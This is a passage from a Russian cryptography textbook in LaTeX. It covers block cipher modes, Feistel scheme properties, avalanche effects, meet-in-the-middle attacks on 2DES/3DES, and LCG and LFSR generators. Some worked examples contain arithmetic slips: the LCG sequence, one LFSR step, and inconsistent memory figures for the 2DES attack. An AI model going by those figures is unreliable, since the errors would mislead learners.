Этот вектор используется в данном сеансе для шифрования открытого текста в режиме CBC. Заметим, что блок $C_0$ передавать в сеансе не обязательно, если приёмная сторона знает заранее дополнительные данные для одноразовой метки. Вместо этого достаточно вначале передать только номер сеанса в открытом виде. Принимающая сторона добавляет к нему дополнительные данные и вычисляет блок $C_0$, необходимый для расшифрования в режиме CBC. Это позволяет сократить издержки, связанные с удлинением пакета. Например, для шифра AES длина блока $C_0$ равна $16$ байтов. Если число сеансов ограничить величиной $2^{32}$ (вполне приемлемой для большинства приложений), то для передачи номера пакета понадобится только $4$ байта.


\subsection{Обратная связь по выходу}

В предыдущих режимах входными блоками для устройств шифрования были непосредственно блоки открытого текста.
В режиме обратной связи по выходу (OFB от Output FeedBack) блоки открытого текста непосредственно на вход устройства шифрования не поступают. Вместо этого устройство шифрования генерирует псевдослучайный поток байтов, который суммируется по модулю $2$ с открытым текстом для получения шифрованного текста. Шифрование осуществляют по правилу:
\[ \begin{array}{l}
    K_0 = \textrm{IV}, \\
    K_j = E_K(K_{j-1}), ~ j = 1, 2, \dots, n, \\
    C_j = K_j \oplus M_j.
\end{array} \]

Здесь текущий ключ $K_j$ есть результат шифрования предыдущего ключа $K_{j-1}$. Начальное значение $K_0$ известно криптографу и легальному пользователю. На приёмной стороне расшифрование выполняют по правилу:
\[ \begin{array}{l}
    K_0 = \textrm{IV}, \\
    K_j = E_K(K_{j-1}), ~ j = 1, 2, \dots, n, \\
    M_j = K_j \oplus C_j.
\end{array} \]

Как и в режиме CBC, вектор инициализации $\textrm{IV}$ может быть выбран случайно и передан вместе с шифрованным текстом, либо вычислен на основе одноразовых меток. Здесь особенно важна уникальность вектора инициализации.

Достоинство этого режима состоит в полном совпадении операций шифрования и расшифрования. Кроме того, в этом режиме не надо проводить операцию дополнения открытого текста.


\subsection{Обратная связь по шифрованному тексту}

В режиме обратной связи по шифрованному тексту (CFB от Cipher FeedBack) ключ $K_j$ получается с помощью процедуры шифрования предыдущего шифрованного блока $C_{j-1}$. Может быть использован не весь блок $C_{j-1}$, а только его часть. Как и в предыдущем случае, начальное значение ключа $K_0$ известно криптографу и легальному пользователю:
\[ \begin{array}{l}
    K_0 = \textrm{IV}, \\
    K_j = E_K(C_{j-1}), ~ j = 1, 2, \dots, n,\\
    C_j = K_j \oplus M_j.
\end{array} \]

У этого режима нет особых преимуществ по сравнению с другими режимами.


\subsection{Счётчик}

В режиме счётчика (CTR от Counter) правило шифрования имеет вид, похожий на режим обратной связи по выходу (OFB), но позволяющий вести независимое (параллельное) шифрование и расшифрование блоков:
\[ \begin{array}{l}
    K_j = E_K(\textrm{Nonce} ~\|~ j - 1), ~ j = 1, 2, \dots, n, \\
    C_j = M_j \oplus K_j,
\end{array} \]
где $\textrm{Nonce} ~\|~ j - 1$ -- конкатенация битовой строки одноразовой метки $\textrm{Nonce}$ и номера блока, уменьшенного на единицу.
%Для стандарта AES значение $\textrm{Nonce}$ занимает 16 бит, номер блока -- 48 бит. С одним ключом выполняется шифрование $2^{48}$ блоков.

Правило расшифрования идентичное:
\[ \begin{array}{l}
    M_j = C_j \oplus K_j. \\
\end{array} \]


\section{Некоторые свойства блочных шифров}

\subsection{Обратимость схемы Фейстеля}
\selectlanguage{russian}

Покажем, что обратимость схемы Фейстеля не зависит от выбора функции $F$.

Напомним, что схема Фейстеля~-- это итеративное шифрование, в котором выход подаётся на вход следующей итерации по правилу:
\[ \begin{array}{l}
    L_i = R_{i-1}, \\
    R_i = L_{i-1} \oplus F(R_{i-1}, K_i), \\
\end{array} \]
\[
    (L_0,R_0) \rightarrow (L_1,R_1) \rightarrow \ldots \rightarrow (L_n,R_n).
\]

При расшифровании используется та же схема, только левая и правая части меняются местами перед началом итераций, а ключи раунда подаются в обратном порядке:
    \[ R_i = L_{i-1} \oplus F(R_{i-1}, K_{n+1-i}), \]
\[ \begin{array}{l}
    L_0^* = R_n = L_{n-1} \oplus F(R_{n-1}, K_n), \\
    R_0^* = L_n = R_{n-1}, \\
    \\
%\end{array} \]
%\[ \begin{array}{l}
    L_1^* = R_{n-1}, \\
    R_1^* = L_{n-1} \oplus F(R_{n-1}, K_n) \oplus F(R_{n-1}, K_n) = L_{n-1}, \\
    \dots.
\end{array} \]


\subsection{Схема Фейстеля без s-блоков}
\selectlanguage{russian}

Пусть функция $F$ является простой линейной комбинацией некоторых бит правой части и ключа раунда относительно операции XOR. Тогда можно записать систему линейных уравнений битов выхода $y_i$ относительно битов входа $x_i$ и ключа $k_i$ после всех 16 раундов в виде
    \[ y_i = (\sum_{i=0}^{n_1} a_i x_i) \oplus (\sum_{i=0}^{n_2} b_i k_i), \]
где суммирование производится по модулю 2, коэффициенты $a_i$ и $b_i$ известны и равны 0, 1, количество бит в блоке открытого текста равно $n_1$, количество битов ключа равно $n_2$.

Имея открытый текст и шифротекст, легко найти ключ. Без знания открытых текстов, выполняя XOR шифротекстов, найдем XOR открытых текстов. Во-первых, это атака на различение сообщений. Во-вторых, часто известны форматы сообщений, отдельные поля или распределение символов открытого текста, что приводит к атаке перебором с учетом множества уравнений, полученных XOR шифротекстов.

$s$-блоки замены создают нелинейность в уравнениях выхода $y_i$ относительно сообщения и ключа.


\subsubsection[Схема Фейстеля в ГОСТ 28147-89 без $s$-блоков]{Схема Фейстеля в~ГОСТ~28147-89 без~$s$-блоков}

В отличие от устаревшего алгоритма DES блоковый шифр ГОСТ без $s$-блоков намного сложнее для взлома, так как для него нельзя записать систему линейных уравнений:
\[
    \begin{array}{l}
        L_1 = R_0, \\
        R_1 = L_0 \oplus ((R_0 \boxplus K_1) \lll 11), \\
    \end{array}
\] \[
    \begin{array}{l}
        L_2 = R_1 = L_0 \oplus ((R_0 \boxplus K_1) \lll 11), \\
        R_2 = L_1 \oplus (R_1 \boxplus K_2)  = \\
        ~~~~~= R_0 \oplus (((L_0 \oplus ((R_0 \boxplus K_1) \lll 11)) \boxplus K_2) \lll 11). \\
    \end{array}
\]

Операция $\boxplus$ нелинейна по XOR. Например, только на трех операциях $\oplus$, $\boxplus$ и $\lll f(R_i)$ без использования $s$-блоков построен блоковый шифр RC5, который по состоянию на 2010 г. не был взломан.


\subsection{Лавинный эффект}
\selectlanguage{russian}

\subsubsection{Лавинный эффект в DES}

Оценим число раундов, за которое в DES достигается полный лавинный эффект\index{лавинный эффект}, предполагая \emph{случайное} расположение бит перед расширением, $s$-блоками ($s$ -- substitute, блоки замены) и XOR.

Пусть на входе правой части $R_i$ содержится $r$ бит, на которые уже распространилось влияние 1 вначале выбранного бита. После расширения получим
    \[ n_1 \approx \min(1.5 \cdot r, 32) \]
зависимых бит. Предполагая случайные попадания в 8 $s$-блоков, мы увидим, что, согласно задаче о размещении, биты попадут в
    \[ s_2 = 8 \left( 1 - \left( 1 - \frac{1}{8} \right)^{n_1} \right) \approx 8 \left( 1 - e^{-\frac{n_1}{8}} \right) \]
$s$-блоков. Одно из требований NSA к $s$-блокам заключалось в том, чтобы изменение каждого бита входа \emph{изменяло} 2 бита выхода. Мы предположим, что каждый бит входа $s$-блока \emph{влияет} на все 4 бита выхода. Зависимыми станут
    \[ n_2 = 4 \cdot s_2 = 32 \left( 1 - e^{-\frac{n_1}{8}} \right) \]
бит. При дальнейшем XOR с величиной $L_i$, содержащей $l$ зависимых бит, результатом будет
    \[ n_3 \approx n_2 + l  - \frac{n_2 l}{32} \]
зависимых бит.

\begin{table}[!ht]
    \centering
    \caption{Распространение влияния 1 бита левой части в DES\label{tab-DES-avalance-effect}}
    \begin{tabular}{||c||c||c|c|c||}
        \hline
        \multirow{3}{*}{Раунд} & $L_i$ & \multicolumn{3}{|c||}{$R_i$} \\
        \cline{2-5}
        & & Расширение & $s$-блоки & $R_{i+1} = f(R_i) \oplus L_i$ \\
        & $l$ & $r \rightarrow n_1$ & $n_1 \rightarrow n_2$ & $(n_2, l) \rightarrow n_3$ \\
        \hline \hline
        0 & 1 & 0 & 0 & 0 \\
        1 & 0 & 0 & 0 & $(0,1) \rightarrow 1$ \\
        2 & 1 & $1 \rightarrow 1.5$ & $1.5 \rightarrow 5.5$ & $(5.5, 0) \rightarrow 5.5$ \\
        3 & 5.5 & $5.5 \rightarrow 8.2$ & $8.2 \rightarrow 20.5$ & $(20.5, 1) \rightarrow 20.9$ \\
        4 & 20.9 & $20.9 \rightarrow 31.3$ & $31.3 \rightarrow 32$ & $(32, 20.9) \rightarrow 32$ \\
        5 & 32 & 32 & 32 & 32 \\
      \hline
    \end{tabular}
\end{table}

В таблице \ref{tab-DES-avalance-effect} приводится расчет распространения 1 бита левой части. Посчитано число зависимых бит по раундам в предположении об их случайном расположении и том, что каждый бит на входе $s$-блока \emph{влияет} на все биты выхода. Полная диффузия достигается за 5 раундов, что совпадает с экспериментальной проверкой. Для достижения максимального лавинного эффекта требуется аккуратно выбрать расширение, $s$-блоки, а также перестановку в функции $F$.


\subsubsection{Лавинный эффект в ГОСТ 28147-89}

Лавинный эффект\index{лавинный эффект} по входу обеспечивается $(4 \times 4)$ $s$-блоками и циклическим сдвигом влево на $11 \neq 0 \mod 4$.

\begin{table}[!ht]
    \centering
    \caption{Распространение влияния 1 бита левой части в ГОСТ 28147-89\label{tab:GOST-avalance-effect}}
    \resizebox{\textwidth}{!}{ \begin{tabular}{||c||c|c|c|c|c|c|c|c||c|c|c|c|c|c|c|c||}
        \hline
        \multirow{2}{*}{Раунд} & \multicolumn{8}{|c||}{$L_i$} & \multicolumn{8}{|c||}{$R_i$} \\
        \cline{2-17}
              & 1 & 2 & 3 & 4 & 5 & 6 & 7 & 8   &   1 & 2 & 3 & 4 & 5 & 6 & 7 & 8 \\
        \hline \hline
        0     &   &   &   &   &   &   &   & 1   &     &   &   &   &   &   &   &   \\
        1     &   &   &   &   &   &   &   &     &     &   &   &   &   &   &   & 1 \\
        2     &   &   &   &   &   &   &   & 1   &     &   &   &   & 3 & 1 &   &   \\
        3     &   &   &   &   & 3 & 1 &   &     &     & 3 & 4 & 1 &   &   &   & 1 \\
        4     &   & 3 & 4 & 1 &   &   &   & 1   &   4 & 1 &   &   & 3 & 1 & 3 & 4 \\
        5     & 4 & 1 &   &   & 3 & 1 & 3 & 4   &     & 3 & 4 & 4 & 4 & 4 & 4 & 1 \\
        6     &   & 3 & 4 & 4 & 4 & 4 & 4 & 1   &   4 & 4 & 4 & 4 & 4 & 3 & 3 & 4 \\
        7     & 4 & 4 & 4 & 4 & 4 & 3 & 3 & 4   &   4 & 4 & 4 & 4 & 4 & 4 & 4 & 4 \\
        8     & 4 & 4 & 4 & 4 & 4 & 4 & 4 & 4   &   4 & 4 & 4 & 4 & 4 & 4 & 4 & 4 \\
      \hline
    \end{tabular} }
\end{table}

Из таблицы \ref{tab:GOST-avalance-effect} видно, что на каждом раунде число зависимых бит увеличивается в среднем на 4 в результате сдвига и попадания выхода $s$-блока предыдущего раунда в два $s$-блока следующего раунда. Показано распространение зависимых битов в группах по 4 бита в левой и правой частях без учета сложения с ключом раунда. Предполагается, что каждый бит на входе $s$-блока влияет на все биты выхода. Число раундов для достижения полного лавинного эффекта без учета сложения с ключом -- 8. Экспериментальная проверка для $s$-блоков, используемых Центробанком РФ, показывает, что требуется 8 раундов.


\subsubsection{Лавинный эффект в AES}

В первом раунде один бит оказывает влияние на один байт в операции <<Замена байтов>> и затем на столбец из четырех байтов в операции <<Смешивание столбцов>>\index{лавинный эффект}.

Во втором раунде операция <<Сдвиг строки>> сдвигает байты измененного столбца на разное число байтов по строкам, в результате получаем диагональное расположение измененных байт, то есть в каждой строке присутствует по измененному байту. Далее, в результате операции <<Смешивание столбцов>> изменение распространяется от байта в столбце на весь столбец и, следовательно, на всю матрицу.

Диффузия по входу достигается за 2 раунда.


\subsection{Двойное и тройное шифрования}\index{шифрование!двойное}\index{шифрование!тройное}
\selectlanguage{russian}

В конце XX-века, когда ненадёжность существующего стандарта DES\index{шифр!DES} уже была очевидна, а нового стандарта ещё не было, стали распространены техники двойного и тройного шифрования, когда к одному блоку текста последовательно применяется несколько преобразований на разных ключах.

Например, двойное шифрование\index{шифрование!двойное} 2DES\index{шифр!2DES} использует два разных ключа $K_1$ и $K_2$ для шифрования одного блока текста дважды:

\[ E_{K1, K2} \left( M \right) \equiv E_{K1} \left( E_{K2} \left( M \right) \right). \]

Так как функция шифрования\index{функция!шифрования} DES не образует группу\index{группа} (\cite{Kaliski:Rivest:Sherman:1988, Campbell:Wiener:1993}), то данное преобразование не эквивалентно однократному шифрованию на каком-нибудь третьем ключе. То есть для произвольных $K_1$ и $K_2$ нельзя подобрать такой $K_3$, что

\[E_{K1} \left( E_{K2} \left( M \right) \right) \equiv E_{K3} \left( M \right).\]

Тем самым размер ключевого пространства (количество различных ключей шифрования, если считать за ключ пару $K_1$ и $K_2$) увеличивается с $2^{56}$ до $2^{112}$ (без учёта проверочных бит). Однако из-за атаки <<встреча посередине>>\index{атака!встреча посередине} (\langen{meet in the middle}) фактическая криптостойкость увеличилась не более чем до $2^{57}$.

Тройной DES (\langen{triple DES, 3DES})\index{шифрование!тройное}\index{шифр!3DES} использует тройное преобразование. Причём в качестве второй функции используется функция \emph{расшифрования}:

\[ E_{K1, K2, K3} \left( M \right) \equiv E_{K1} \left( D_{K2} \left( E_{K3} \left( M \right) \right) \right). \]

\begin{itemize}
	\item Вариант $K_1 \neq K_2 \neq K_3$ является наиболее защищённым, ключевое пространство увеличивается до $2^{168}$.
	\item Вариант $K_1 \neq K_2$, $K_1 = K_3$ увеличивает ключевое пространство до $2^{112}$, но защищён от атаки <<встреча посередине>>\index{атака!встреча посередине}, в отличие от 2DES\index{шифр!2DES}.
	\item Вариант $K_1 = K_2 = K_3$ эквивалентен однократному преобразованию DES\index{шифр!DES}. Его можно использовать для целей совместимости.
\end{itemize}

Оценим сложность атак на 2DES\index{шифр!2DES} и 3DES\index{шифр!3DES}.

\subsubsection{Атака на двойное шифрование}

%Для упрощения записи введём обозначение последовательного шифрования $E_{K_1}( E_{K_2}( \dots E_{K_n}(M) \dots)) \equiv E{K_1} \circ E_{K_2} (M)$ и назовём его суперпозицией функций $E_{K_i}$.

Атака основана на предположении, что у криптоаналитика есть возможность получить шифротекст для любого открытого текста\index{атака!с известным шифротекстом} (Chosen Plaintext Attack, CPA) либо открытый текст по шифротексту\index{атака!с известным открытым текстом} (Chosen Ciphertext Attack, CCA), но неизвестен ключ шифрования, который и нужно найти.

Шифрование в 2DES\index{шифр!2DES}:
    \[ C = E_{K_1}( E_{K_2}(M)). \]
Запишем $D_{K_1}(C) = E_{K_2}(M)$. Пусть время одного шифрования -- $T_E$, время одного сравнения блоков $T_{=} \approx 2^{-10} T_E$.

Атака для нахождения ключей без использования памяти занимает время
    \[ T = 2^{56 + 56} (T_E + T_{=}) \approx 2^{112} T_E. \]

Можно заранее вычислить значения $E_{K_2}(M)$ для всех ключей и построить таблицу: индекс -- $E_{K_2}(M)$, значения поля -- набор ключей $K_2$, которые соответствуют этому значению. Атака для нахождения ключей требует времени
    \[ T = 2 \cdot 2^{56} T_E + 2^{56} T_{=} \approx 2^{57} T_E \]
и памяти $M = 56 \cdot 2^{56} \approx 2^{62}$ бит $ \approx 1$ EiB, учитывая прямой доступ по значению к возможным ключам. При нахождении соответствия берётся другая пара (открытый текст, шифротекст), и проверяется равенство для определения, правильные ключи или нет.

По отношению к CCA и CPA криптостойкость 2DES\index{шифр!2DES} эквивалентна обычному DES\index{шифр!DES} с использованием 26 GiB памяти.

\subsubsection{Атака на тройное шифрование}

Атака для нахождения ключей (CCA\index{атака!с известным шифротекстом}, CPA\index{атака!с известным открытым текстом}) на наиболее стойкий вариант 3DES\index{шифр!3DES} (все три ключа $K_1$, $K_2$ и $K_3$ выбираются независимо) требует время $T \approx 2^{168} T_E$ без использования дополнительной памяти.

Для построения таблицы запишем
    \[ D_{K_2}( D_{K_1}( C)) = E_{K_3} (M). \]
Таблица строится аналогично 2DES\index{шифр!2DES} для $E_{K_3}(M)$. С использованием памяти атака занимает время $T = 2^{112} T_E$ и память $M = 26$ GiB.


\index{шифр!блочный|)}

\chapter{Генераторы псевдослучайных чисел}\label{chapter-generators}
\selectlanguage{russian}

Для работы многих криптографических примитивов необходимо уметь получать случайные числа:
\begin{itemize}
	\item вектор инициализации для отдельных режимов сцепления блоков должен быть случайным числом (см. раздел~\ref{section-block-chaining});
	\item для генерации пар открытых и закрытых ключей необходимы случайные числа (см. главу~\ref{chapter-public-key});
	\item стойкость многих протоколов распределения ключей (см. главу~\ref{chapter-key-distribution-protocols}) основывается в том числе на выработке случайных чисел (\langen{nonce}), которые не может предугадать злоумышленник.
\end{itemize}

Генератором случайных чисел (\langen{random number generator})\index{генератор!случайных чисел} мы будем называть процесс\footnote{Есть и строгое математическое определение генератора в общем смысле. Генератором называется функция $g: \left\{0, 1\right\}^{n} \to \left\{0, 1\right\}^{q\left(n\right)}$, вычислимая за полиномиальное время. Однако мы пока не будем использовать это определение, чтобы показать разницу между истинно случайными числами и псевдослучайными.}, результатом работы которого является случайная последовательность чисел, а именно такая, что зная произвольное число предыдущих чисел последовательности (и способ их получения), даже теоретически нельзя предсказать следующее с вероятностью больше заданной. К таким случайным процессам можно отнести:

\begin{itemize}
	\item результат работы счётчика элементарных частиц, работа с которым включена в лабораторный практикум по общей физике для студентов первого курса МФТИ;
	\item время между нажатиями клавиш на клавиатуре персонального компьютера или расстояние, которое проходит <<мышь>> во время движения;
	\item время между двумя пакетами, полученными сетевой картой;
	\item тепловой шум, измеряемый звуковой картой на входе аналогового микрофона, даже в отсутствии самого микрофона.
\end{itemize}

Хотя для всех этих процессов можно предсказать приблизительное значение, его последний бит (чётное или нечётное) будет оставаться достаточно случайным для практических целей. С учётом данной поправки их можно называть надёжными или качественными генераторами случайных чисел.

Однако к генератору случайных чисел предъявляются и другие требования. Кроме уже указанного критерия \emph{качественности} или \emph{надёжности}, генератор должен быть \emph{быстрым} и \emph{дешёвым}. Быстрым -- чтобы получить большой объём случайной информации за заданный период времени. И дешёвым -- чтобы его можно было бы использовать на практике. Количество случайной информации от перечисленных выше генераторов составляет не более десятков килобайт в секунду (для теплового шума), и значительно меньше, если мы будем требовать ещё и равномерность распределения полученных случайных чисел.

С целью получения большего объёма случайной информации используют специальные алгоритмы, которые называют генераторами псевдослучайных чисел (ГПСЧ). ГПСЧ -- это детерминированный алгоритм, выходом которого является последовательность чисел, обладающая свойством случайности. Работу ГПСЧ можно описать следующей моделью. На подготовительном этапе оперативная память, используемая алгоритмом, заполняется начальным значением (\langen{seed}). Далее на каждой итерации своей работы ГПСЧ выдаёт на выход число, которое является функцией от состояния оперативной памяти алгоритма и меняет содержимое своей памяти по определённым правилам. Содержимое оперативной памяти называется \emph{внутренним состоянием} генератора.

Как и у любого алгоритма, у ГПСЧ есть определённый размер используемой оперативной памяти\footnote{Только алгоритмы с фиксированным размером используемой оперативной памяти и можно называть \emph{генераторами} в строгом математическом смысле этого слова, как следует из определения.}. Исходя из практических требований, предполагается, что размер оперативной памяти для ГПСЧ сильно ограничен. Так как память алгоритма ограничена, то ограничено и число различных внутренних состояний алгоритма. Так как выдаваемые ГПСЧ числа являются функцией от внутреннего состояния, то любой ГПСЧ, работающий с ограниченным размером оперативной памяти и не принимающий извне дополнительной информации, будет иметь \emph{период}. Для генератора с памятью в $n$ бит максимальный период, очевидно, равен $2^n$.

Качество детерминированного алгоритма, то есть то, насколько полученная последовательность обладает свойством случайной, можно оценить с помощью тестов, таких как набор тестов NIST (\langen{National Institute of Standards and Technology}, США,~\cite{NIST:2001}). Данный набор содержит большое число различных проверок, включая частотные тесты бит и блоков, тесты максимальных последовательностей в блоке, тесты матриц и так далее.

\section{Линейный конгруэнтный генератор}\label{section-linear-congruential-generator}\index{генератор!линейный конгруэнтный}
\selectlanguage{russian}

Алгоритм был предложен Лемером (\langen{Derrick Henry Lehmer},~\cite{Lehmer:1951:1, Lehmer:1951:2}) в 1949 году. Линейный конгруэнтный генератор основывается на вычислении последовательности $x_n, x_{n+1}, \dots$, такой что:
	\[x_{n+1} = a \cdot x_n + c \mod m.\]

Числа $a, c, m$, $ 0 < a < m, 0 < c < m$ являются параметрами алгоритма.

\example
Для параметров $a = 2, c = 3, m = 5$ и начального состояния $x_0 = 1$ получаем последовательность: $0, 3, 4, 0, 3, 4, \dots$
\exampleend

Максимальный период ограничен значением $m$. Но максимум периода достигается тогда и только тогда, когда~\cite[Линейный конгруэнтный метод]{Knuth:2001:2}:

\begin{itemize}
	\item числа $c$ и $m$ взаимно просты\index{числа!взаимно простые};
	\item число $a - 1$ кратно каждому простому делителю числа $m$;
	\item число $a - 1$ кратно 4, если $m$ кратно 4.
\end{itemize}

Конкретная реализация алгоритма может использовать в качестве выхода либо внутреннее состояние целиком (число $x_n$), либо его отдельные биты. Линейный конгруэнтный генератор является простым (то есть <<дешёвым>>) и быстрым генератором, результатом его работы является статистически качественная псевдослучайная последовательность. Линейный конгруэнтный генератор нашёл широкое применение в качестве стандартной реализации функции \texttt{random} в различных компиляторах и библиотеках времени исполнения (см. таблицу~\ref{table:lcg}). Но, забегая вперёд, стоит отметить, что его использование в криптографии недопустимо. Зная два последовательных значения выхода генератора ($x_n$ и $x_{n+1}$) и единственный параметр схемы $m$, можно решить систему уравнений и найти $a$ и $c$, чего будет достаточно для нахождения всей дальнейшей (или предыдущей) части последовательности. Параметр $m$, в свою очередь, можно найти перебором, начиная с некоторого $\min(X): X \geq x_i$, где $x_i$ -- наблюдаемые элементы последовательности.

\begin{landscape}
{\renewcommand{\arraystretch}{1.5}
\begin{table}[h]
\begin{tabular}{|p{0.34\linewidth}|r|r|r|l|}
\hline
									& a		& c		& m		& используемые биты	\\
\hline
\cite{Press:2007}~Numerical Recipes: The Art of Scientific Computing	& 1664525	& 1013904223	& $2^{32}$	& 			\\
\cite{Knuth:2005}~MMIX in The Art of Computer Programming & \tiny{6364136223846793005} & \tiny{1442695040888963407}	& $2^{64}$	&	\\
\hline
\cite{Entacher:1997}~ANSI C:
\tiny{(Watcom, Digital Mars, CodeWarrior, IBM VisualAge C/C++)}		& 1103515245	& 12345		& $2^{31}$	& биты с 30 по 16-й	\\
\cite{Sirca:Horvat:2012}~glibc						& 1103515245	& 12345		& $2^{31}$	& биты с 30 по 0-й	\\
C99, C11 (ISO/IEC 9899) 						& 1103515245	& 12345		& $2^{32}$	& биты с 30 по 16-й	\\
C++11 (ISO/IEC 14882:2011) 						& 16807		& 0		& $2^{31} - 1$	& 			\\
Apple CarbonLib             			                       	& 16807		& 0		& $2^{31} - 1$	& 			\\
Microsoft Visual/Quick C/C++                                    	& 214013	& 2531011	& $2^{32}$	& биты с 30 по 16-й	\\
\hline
\cite{Bucknall:2001}~Borland Delphi					& 134775813	& 1		& $2^{32}$	& \\
\cite{MS-VBRAND:2004}~Microsoft Visual Basic \tiny{(версии 1--6)}	& 1140671485	& 12820163	& $2^{24}$	& 			\\
\cite{Mak:2003}~ Sun (Oracle) Java Runtime Environment			& 25214903917	& 11		& $2^{48} - 1$	& биты с 47 по 16-й	\\
\hline
\end{tabular}
\caption{Примеры параметров линейного конгруэнтного генератора в различных книгах, компиляторах и библиотеках времени исполнения\label{table:lcg}}
\end{table}
}
\end{landscape}


\section[РСЛОС]{Регистр сдвига с линейной обратной связью}\label{section-lfsr}
\selectlanguage{russian}

Другой схемой построения псевдослучайных генераторов является использование регистров сдвига с линейной обратной связью, а также их вариациями. Для начала рассмотрим простой РСЛОС, изображённый на рисунке~\ref{fig:lfsr}.

\begin{figure}[thb]
	\centering
	\includegraphics[width=0.75\textwidth]{pic/lfsr}
	\caption{Регистр сдвига с линейной обратной связью}
	\label{fig:lfsr}
\end{figure}

Регистр сдвига состоит из $n$ однобитовых ячеек $b_1, b_2, \dots, b_n$, содержащих 0 или 1, и линейной обратной связи, определяемой коэффициентами $C_1 = 1$, $C_2, C_3, \dots, C_n \in \{0, 1\}$. Многочлен над полем GF(2) вида $C_1 x^n + C_2 x^{n-1} + \dots + C_n x + 1$ называется характеристическим многочленом РСЛОС.

Начальным состоянием генератора является набор значений в битовых ячейках. На каждой итерации генератор вычисляет сумму по модулю два (то есть выполняет операцию XOR) значений ячеек, для которых $C_i=1$:
\[\begin{array}{ll}
	b_{n+1} &= \sum\limits_{i} C_i b_i \mod 2, \\
	b_{n+1} &= b_1 \oplus C_2 b_2 \oplus C_3 b_3 \oplus \dots \oplus C_n b_n.
\end{array}\]

Далее регистр сдвигает значения на одну ячейку влево. Самая правая ячейчка $b_n$ принимает вычисленное значение $b_{n+1}$:
\[\begin{array}{ll}
	b_1 & := b_2, \\
	b_2 & := b_3, \\
	\dots \\
	b_n & := b_{n+1}. \\
\end{array}
\]

Выходом генератора является значение ячейки $b_1$ после сдвига.

\example
Пусть регистр сдвига с линейной обратной связью задан характеристическим многочленом $m\left(x\right)=x^{5} + x^{3} + 1$. Как показано на рисунке, регистр состоит из пяти ячеек. В линейной обратной связи будут участвовать ячейки 1 и 3 (то есть $C_1 = 1, C_3 = 1$, остальные $C_i = 0$).

\begin{center}
	\begin{tikzpicture}[scale=0.05]
		\draw[black,very thick] (30,30) -- (30,40)~--- (40,40) -- (40,30) -- (30,30) -- (30,40);
		\draw[black,thick] (35,40) -- (35,50) -- (35,50) -- (37.5,50);
		\draw[black,very thick] (40,30) -- (40,40) -- (50,40) -- (50,30) -- (40,30) -- (40,40);
		\draw[black,very thick] (50,30) -- (50,40) -- (60,40) -- (60,30) -- (50,30) -- (50,40);
		\draw[black,thick] (55,40) -- (55,47.5);
		\draw[black,thick] (53.5,46) -- (55,47.5) -- (56.5,46);
		\draw[black,thick] (37.5,50) -- (52.5,50);
		\draw[black,thick] (51,51.5) -- (52.5,50) -- (51,48.5);
		\draw (55,50) circle [radius=2.5];
		\draw[black] (52.5,50) -- (57.5,50);
		\draw[black] (55,47.5) -- (55,52.5);
		\draw[black,very thick] (60,30) -- (60,40) -- (70,40) -- (70,30) -- (60,30) -- (60,40);
		\draw[black,very thick] (70,30) -- (70,40) -- (80,40) -- (80,30) -- (70,30) -- (70,40);
		\draw[black,thick] (57.5,50) -- (85,50) -- (85,35) -- (80,35);
		\draw[black,thick] (82.5,36.5) -- (80,35) -- (82.5,33.5);
		\draw[black,thick] (30,35) -- (15,35);
		\draw[black,thick] (20,30) -- (15,35) -- (20,40);
	\end{tikzpicture}
\end{center}

Если начальное состояние регистра равно $\vec{s_0} = (0, 0, 0, 0, 1)$, то дальнейшие внутренние состояния регистра $s_i$ и выходы генератора $r_i$ равны:

\begin{enumerate}
	\item $b_{n+1} = b_1 \oplus b_3 = 0 \oplus 0 = 0$, $\vec{s_1} = (0, 0, 0, 1, 0)$, $r_1 = b_1 = 0$;
	\item $b_{n+1} = b_1 \oplus b_3 = 0 \oplus 0 = 0$, $\vec{s_2} = (0, 0, 1, 0, 0)$, $r_2 = b_1 = 0$;
	\item $b_{n+1} = b_1 \oplus b_3 = 0 \oplus 1 = 1$, $\vec{s_3} = (0, 1, 0, 0, 1)$, $r_3 = b_1 = 0$;
	\item $b_{n+1} = b_1 \oplus b_3 = 0 \oplus 0 = 0$, $\vec{s_4} = (1, 0, 0, 1, 0)$, $r_4 = b_1 = 1$;
	\item $b_{n+1} = b_1 \oplus b_3 = 1 \oplus 0 = 1$, $\vec{s_5} = (0, 0, 1, 0, 1)$, $r_5 = b_1 = 0$;
	\item $b_{n+1} = b_1 \oplus b_3 = 0 \oplus 1 = 0$, $\vec{s_6} = (0, 1, 0, 1, 0)$, $r_6 = b_1 = 0$;
	\item $b_{n+1} = b_1 \oplus b_3 = 0 \oplus 0 = 0$, $\vec{s_7} = (1, 0, 1, 0, 0)$, $r_7 = b_1 = 1$;
	\item $b_{n+1} = b_1 \oplus b_3 = 1 \oplus 1 = 0$, $\vec{s_8} = (0, 1, 0, 0, 0)$, $r_8 = b_1 = 0$;
	\item и так далее.
\end{enumerate}

\exampleend

Максимальный период последовательности РСЛОС равен $2^n - 1$. Максимум достигается в том и только том случае, когда характеристический многочлен РСЛОС примитивен. В этом случае РСЛОС называют регистром сдвига максимального периода, а генерируемые им последовательности -- М-последовательностями, или же последовательностями максимального периода.

Если известна структура РСЛОС (значения коэффициентов $C_2, \dots, C_n$), то внутреннее состояние генератора можно восстановить по $n$ предыдущим выходам. По $2n$ предыдущим выходам генератора можно восстановить и внутреннее состояние, и структуру генератора. Зная структуру и текущее внутреннее состояние генератора, можно восстановить его предыдущие и следующие выходные значения.


\section[КСГПСЧ]{Криптографически стойкие генераторы псевдослучайных чисел}\label{section-crypto-random}\index{генератор!криптографически-стойкий}
\selectlanguage{russian}

Итак, просто генератором псевдослучайных чисел мы называем функцию $g$ вида
	\[g: \left\{0, 1\right\}^{n} \to \left\{0, 1\right\}^{q\left(n\right)},\]
вычислимую за полиномиальное время, результатом работы которой является последовательность чисел, обладающая свойствами случайной.

Были рассмотрены два генератора (линейный конгруэнтный генератор в разделе~\ref{section-linear-congruential-generator} и генератор на основе РСЛОС в разделе~\ref{section-lfsr}). Однако они обладают фундаментальными недостатками, которые не дают использовать их в криптографии. Зная определённое число предыдущих значений выхода генератора (и его внутреннее устройство), криптоаналитик имеет возможность предсказать следующие элементы последовательности. Избежать этого можно только увеличением размера внутреннего состояния.

Пусть $b \left( g \right)$ -- число предыдущих битов, которые необходимо знать криптоаналитику для восстановления внутреннего состояния и параметров генератора (и, следовательно, для предсказания дальнейшей последовательности). И для линейного конгруэнтного генератора\footnote{для получения параметров \texttt{a} и \texttt{c}}, и для генератора на основе РСЛОС функция $b (g)$ является линейной функцией от размера внутреннего состояния $size\left( g \right)$ в битах:

\[\begin{array}{l}
	b \left( LCG \right) = 3 \cdot size\left( g \right), \\
	b \left( LFSR \right) = 2 \cdot size\left( g \right). \\
\end{array}\]

